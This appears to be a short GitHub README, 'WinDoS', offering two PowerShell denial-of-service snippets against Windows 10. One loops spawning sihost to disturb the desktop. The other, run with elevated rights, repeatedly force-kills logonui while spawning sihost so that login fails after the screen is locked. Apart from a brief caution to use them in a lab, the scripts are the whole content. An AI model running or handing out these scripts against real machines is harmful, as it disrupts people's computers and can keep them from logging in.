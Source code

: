 # WinDoS
Spawning sihost leads to unexpected behaviour in context with the Windows Desktop on Windows 10


*Please use this following PowerShell code responsibly, with caution, in a lab environment as it could break things or lead to unexpected behaviour.*


### Temporarily disturb the Windows Desktop Environment
```PowerShell
$i = 64

while($i -ne 0){
  sihost
  $i = $i - 1
}
```
### Temporarily disturb the Windows Desktop Environment and if the User locks the computer, impair the login process (Requires elevated PowerShell instance).
```PowerShell
$i = 256

while ($i -ne 0) {
    $p = Get-Process -Name logonui -ErrorAction SilentlyContinue
    if ($p) {
        Stop-Process -Id $p.Id -Force
    }
    sihost
    $i = $i - 1
}
```


